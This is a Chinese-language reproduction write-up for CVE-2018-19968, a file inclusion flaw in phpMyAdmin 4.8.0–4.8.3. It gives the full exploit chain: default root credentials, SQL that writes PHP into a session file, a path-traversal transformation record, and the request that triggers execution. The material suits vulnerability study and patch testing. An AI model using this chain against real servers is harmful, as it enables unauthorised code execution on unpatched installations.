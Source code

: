 （CVE-2018-19968）Phpmyadmin 文件包含漏洞
=========================================

一、漏洞简介
------------

Transformation是phpMyAdmin中的一个高级功能，通过Transformation可以对每个字段的内容使用不同的转换，每个字段中的内容将被预定义的规则所转换。比如我们有一个存有文件名的字段
'Filename'，正常情况下 phpMyAdmin
只会将路径显示出来。但是通过Transformation我们可以将该字段转换成超链接，我们就能直接在
phpMyAdmin 中点击并在浏览器的新窗口中看到这个文件。

通常情况下Transformation的规则存储在每个数据库的pma\_\_column\_info表中，而在phpMyAdmin
4.8.0\~4.8.3版本中，由于对转换参数处理不当，导致了任意文件包含漏洞的出现。

二、漏洞影响
------------

Phpmyadmin 4.8.0\~4.8.3

三、复现过程
------------

1、首先登陆进后台，这里默认是root, toor

![](./resource/(CVE-2018-19968)Phpmyadmin文件包含漏洞/media/rId24.png)

2、创建数据库，并将PHP代码写入SESSION文件中

    CREATE DATABASE foo;
    CREATE TABLE foo.bar ( baz VARCHAR(100) PRIMARY KEY );
    INSERT INTO foo.bar SELECT '<?php phpinfo(); ?>';

访问[http://www.0-sec.org/chk\_rel.php?fixall\_pmadb=1&db=foo在数据库foo中生成phpMyAdmin的配置表。](http://www.0-sec.org/chk_rel.php?fixall_pmadb=1&db=foo在数据库foo中生成phpMyAdmin的配置表。)

![](./resource/(CVE-2018-19968)Phpmyadmin文件包含漏洞/media/rId26.png)

将篡改后的Transformation数据插入表pma*\_columninfo中将sess**中的***替换成你的会话ID，即COOKIE中phpMyAdmin的值，抓包查看session
id，如下

![](./resource/(CVE-2018-19968)Phpmyadmin文件包含漏洞/media/rId27.png)

    INSERT INTO pma__column_info SELECT '1', 'foo', 'bar', 'baz', 'plop', 'plop', 'plop', 'plop', '../../../../../../../../tmp/sess_***','plop'; 
    \#将sess_***中的***替换成你的会话ID，即COOKIE中phpMyAdmin的值

![](./resource/(CVE-2018-19968)Phpmyadmin文件包含漏洞/media/rId28.png)

然后访问

<http://www.0-sec.org/tbl_replace.php?db=foo&table=bar&where_clause=1=1&fields_name%5Bmulti_edit%5D%5B%5D%5B%5D=baz&clause_is_unique=1>
就能自动包含刚才插入数据库表的恶意代码

![](./resource/(CVE-2018-19968)Phpmyadmin文件包含漏洞/media/rId30.shtml)
